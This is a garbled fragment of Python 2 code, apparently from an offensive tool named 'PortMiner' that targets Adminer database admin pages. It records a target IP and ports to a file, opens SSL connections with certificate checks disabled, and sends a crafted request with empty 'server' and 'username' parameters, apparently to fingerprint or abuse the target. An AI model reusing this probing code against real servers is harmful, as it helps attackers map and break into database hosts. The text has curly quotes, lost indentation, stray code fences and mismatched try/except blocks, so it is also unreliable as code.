 ```

file=open(‘PortMiner.txt’, ‘w’)

file.write(IP+’\n’)

for p in port_lst:

file.write(p+’\n’)

file.close()

except Exception as e:

print str(e)

print “\nSee PortMiner.txt”

def use_ssl(ADMINER,ADMINER_PORT):

try:

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((ADMINER,int(ADMINER_PORT)))

s=ssl.wrap_socket(s, keyfile=None, certfile=None, server_side=False, cert_reqs=ssl.CERT_NONE, ssl_version=ssl.PROTOCOL_SSLv23)

s.close()

except Exception as e:

print “”

return False

return True

def version(ip,port,uri,use_ssl):

res=""

try:

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((ip,int(port)))

if use_ssl:

s=ssl.wrap_socket(s, keyfile=None, certfile=None, server_side=False, cert_reqs=ssl.CERT_NONE, ssl_version=ssl.PROTOCOL_SSLv23)

s.send(‘GET ‘+’/’+uri+’/?server=’+’:’+’&username=\r\n\r\n’)

```
except Exception as e:
    print 'Host up but cant connect.' #str(e)
    print 'Re-check Host/Port/URI.'
    s.close()
    return 504
